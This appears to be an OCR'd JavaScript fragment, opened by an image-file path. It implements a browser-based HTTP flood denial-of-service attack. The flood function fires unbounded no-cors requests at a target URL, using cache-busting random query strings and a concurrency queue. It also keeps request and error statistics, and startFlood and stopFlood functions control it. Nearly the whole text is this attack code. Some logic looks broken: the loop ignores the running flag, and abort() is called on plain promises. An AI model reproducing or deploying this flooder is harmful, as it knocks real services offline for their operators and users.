         async function fetchWithTimeout(resource, options) {
            const controller = new AbortController();
            const id = setTimeout(() => controller.abort(), options.timeout);
            return fetch(resource, {
                mode: 'no-cors',
                signal: controller.signal
            }).then((response) => {
                clearTimeout(id);
                return response;
            }).catch((error) => {
                console.log(error.code);
                clearTimeout(id);
                throw error;
            });
        }

        async function flood(target) {
            for (var i = 0;; ++i) {
                if (queue.length >= CONCURRENCY_LIMIT) {
                    await queue.shift();
                }
                var rand = i % 3 === 0 ? '' : ('?' + Math.random() * 26000);
                queue.push(
                    fetchWithTimeout(target + rand, { timeout: 1000 })
                        .catch((error) => {
                            if (error.code === 20 /* ABORT */) {
                                return;
                            }
                            targets[target].number_of_errored_responses++;
                        })
                        .then((response) => {
                            if (response && !response.ok) {
                                targets[target].number_of_errored_responses++;
                            }
                            targets[target].number_of_requests++;
                        })
                );
            }
        }

        function startFlood(target) {
            if (!attackRunning) {
                attackRunning = true;
                targets[target] = { number_of_requests: 0, number_of_errored_responses: 0 };
                floodPromise = flood(target);
            }
        }

        function stopFlood() {
            if (attackRunning) {
                attackRunning = false;
                queue.forEach(p => p.abort());
                queue = [];
                targets = { '': { number_of_requests: 0, number_of_errored_responses: 0 } }; // Reset stats
            }
        }
